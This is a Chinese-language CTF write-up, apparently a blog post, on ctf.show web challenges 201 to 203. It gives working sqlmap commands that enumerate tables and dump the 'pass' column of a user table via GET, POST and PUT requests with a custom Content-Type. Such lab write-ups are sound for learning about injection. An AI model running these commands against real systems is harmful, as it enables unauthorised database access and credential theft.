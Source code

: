 

<img src="https://i-blog.csdnimg.cn/blog_migrate/b761f104af6ea70281e4290b0d9aedd4.png" alt="" style="max-height:500px; box-sizing:content-box;" />


提高level的时候 就会自动进行http的测试 所以在无法实现注入的时候 可以通过 level 5 尝试

这里我们就直接注入了

```cobol
py3 .\sqlmap.py -u "http://50b41e16-3b03-4cfc-a025-edb290b5eee0.challenge.ctf.show/api/?id=1"  --tables --level 3
 
 
py3 .\sqlmap.py -u "http://50b41e16-3b03-4cfc-a025-edb290b5eee0.challenge.ctf.show/api/?id=1"  -T "ctfshow_user" --columns --level 3
 
py3 .\sqlmap.py -u "http://50b41e16-3b03-4cfc-a025-edb290b5eee0.challenge.ctf.show/api/?id=1"  -T "ctfshow_user" -C "pass" --dump --level 3
```

## web202  SQLMAP -- POST

这里我有点不知道为什么 需要POST 没有提示 应该只是为了学习吧

其实这里我比较好奇这里的后端是怎么写的 为什么可以识别出是手注

```cobol
 py3 .\sqlmap.py -u "http://872c6e1d-2be9-48b4-83d3-f634c0e7e02b.challenge.ctf.show/api/"   --data "id=1" --dbs --level 3
```

## web203  SQLMAP -- PUT / CONTENT-TYPE

这里我们首先进行抓包 然后提示我们是用 method 所以我们这里修改为 put（其实我不知道为什么）

然后这里我们可以学习一个东西 如果我们想通过put 获取数据 我们需要制定 content/type

 [【精选】【web】 Http请求中请求头Content-Type讲解_请求头 content-type-CSDN博客](https://blog.csdn.net/m0_45406092/article/details/114022550) 

这里我们可以发现



<img src="https://i-blog.csdnimg.cn/blog_migrate/4de4019beb12da277c3402567e2ffa99.png" alt="" style="max-height:156px; box-sizing:content-box;" />


原本的内容是 表单的提交

现在 我们需要获取数据 我们就需要  text/plain   这里应该

这里就使用 sqlmap 来指定

```cobol
py3 .\sqlmap.py -u "http://9e044918-27ea-4835-bf60-d369eab19cb3.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3
```

然后就获取即可
